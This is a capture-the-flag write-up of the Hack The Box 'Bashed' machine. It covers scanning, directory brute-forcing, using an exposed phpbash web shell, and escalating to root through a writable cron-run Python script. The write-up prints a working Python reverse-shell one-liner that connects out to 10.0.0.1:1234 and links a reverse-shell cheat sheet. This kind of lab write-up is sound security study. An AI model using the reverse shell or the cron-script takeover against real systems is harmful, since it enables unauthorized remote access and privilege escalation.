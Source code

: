 ```yaml
---
"title": "Hack The Box - Bashed"
"date": 2019-12-04
"tags": ["linux", "easy", "sudo", "cron"]
"keywords": ["linux", "easy", "sudo", "cron"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "We are going to pwn Bashed from Hack The Box."
"featured_image": "/img/htb-bashed/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-bashed/1.png)

We are going to pwn Bashed from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/118](https://www.hackthebox.eu/home/machines/profile/118)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell.
![Untitled](/img/htb-bashed/2.png)

## Gobuster Results
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/06 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/06 00:29:21 Finished
===============================================================
```

While checking the ``/dev`` there is an ``phpbash.php``[br/](br/)
![Untitled](/img/htb-bashed/3.png)

Found 2 users ``arrexel and scriptmanager`` and got user flag too.

## Getting Shell

Now its time to get reverse shell to expore more

![Untitled](/img/htb-bashed/4.png)
Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine [br/](br/)
![Untitled](/img/htb-bashed/5.png)

## Privilege Escalation

Like always I started with ``sudo -l``[br/](br/)
![Untitled](/img/htb-bashed/6.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![Untitled](/img/htb-bashed/7.png)

Now time to get root, I uploaded my Linux Enumeration Script and found some writeable scripts available. 
![Untitled](/img/htb-bashed/8.png)

May be cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

My guess is correct! 

```bash
2019/12/04 07:46:01 CMD: UID=0    PID=2297   | python test.py

2019/12/04 07:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```
I edited the script
 
![Untitled](/img/htb-bashed/9.png)

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![Untitled](/img/htb-bashed/10.png)

I got Root!

